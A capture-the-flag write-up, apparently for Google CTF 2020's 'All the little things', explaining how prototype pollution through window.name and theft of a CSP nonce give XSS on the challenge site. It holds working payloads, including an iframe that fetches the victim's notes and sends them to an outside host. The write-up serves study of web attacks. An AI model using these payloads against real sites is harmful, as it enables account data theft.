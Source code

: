 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 Did not try much TBH

#### Solutions:

With prototype pollution(unintended solution) on window.name (because it is persisted in browser even if origin changes),
we override the user.theme.cb propoerty, which is used in 
`<script src='/theme?cb=${user.theme.cb}'>`

/theme?cb="payload" reflects payload in the response

By making window.name to on our attacker site

```
{
"__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}
}
=====
<script>
    x = `
        <h1> Hello </h1>
        
    `
    window.name = `{"x": ${JSON.stringify(x)}, "verbose": true, "showAll": true, "keepDebug": true, "__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}}`;
    parent.location = 'https://littlethings.web.ctfcompetition.com/settings?__debug__';
</script>
```

and making him redirect to ctf chall,
we can write the whole window.name to DOM of victim page of chall

So we have arbitrary HTMLi on littlethings domain

but its not full XSS yet cause of CSP nonce.

We can steal and apply this nonce on our own script tag by using multiple callbacks  and then writing arbitrary code to tag and it will execute it.

```
<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.locations=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe> 
	
<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
```

Multiple ways to exfil data though, check out:

In Fixed version,
to get arbitrary HTMLi first, we dont have prototype pollution to the rescue,The challenge name was the hint towards it.

We need to use "document.all" which is undefined but still exists!!
then again after Arbitrary xss, we use CSP bypasses to the rescue.

- https://github.com/BlackFan/ctfs/blob/master/google_ctf_2020/all_the_little_things/solution.md
- https://github.com/zoeyg/public-write-ups/blob/master/googlectf-2020/all-the-little-things.md
- https://blog.s1r1us.ninja/CTF/IuseBing
- https://ctftime.org/task/12831





